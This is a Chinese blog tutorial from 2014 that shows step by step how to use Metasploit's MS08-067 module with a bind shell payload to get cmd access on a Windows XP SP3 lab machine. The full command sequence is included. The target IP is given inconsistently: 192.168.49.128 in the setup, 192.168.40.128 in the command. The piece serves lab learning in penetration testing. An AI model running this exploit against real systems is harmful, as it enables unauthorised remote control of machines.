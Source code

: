 title: metasploit 利用 ms08_067
date: 2014-10-29 22:11
tags:
- kail
- metasploit
categories:
- metasploit
---

# I、实验环境
- 目标主机  XP SP3 简体中文版
- IP  192.168.49.128

# II、测试过程
## ① 选择exploit模块
```
use exploit/windows/smb/ms08_067_netapi
```
如果不知道ms08_067的具体位置  可以使用search ms08_067
##  ② 选择payload
```
set PAYLOAD windows/shell/bind_tcp
```
查看需要设置的参数
```
show options
```
![](https://img.blog.csdn.net/20141029215838917)

## ③ 设置目标主机
```
set RHOST 192.168.40.128
```
设置目标主机端口
```
set LPORT 5555
```
设置目标的版本号  使用 show targets 查看版本号

![](https://img.blog.csdn.net/20141029215844128)

可以看到 sp3 简体中文版的id 是 41
```
set TARGET 41
```
![](https://img.blog.csdn.net/20141029215848605)
## ④ 查看所有选项是否设置好  show options
![](https://img.blog.csdn.net/20141029215852895)

# III、进行渗透测试   exploit
      
等待一段时间后，获取目标主机的cmd权限
![](https://img.blog.csdn.net/20141029215947640)

# IV、将对目标主机的控制权保存到sessions中

- 命令：  sessions -i 1 重新获取对目标主机的控制权
- 说明：我的BT5是英文版的，不支持中文
![](https://img.blog.csdn.net/20141029215904392)





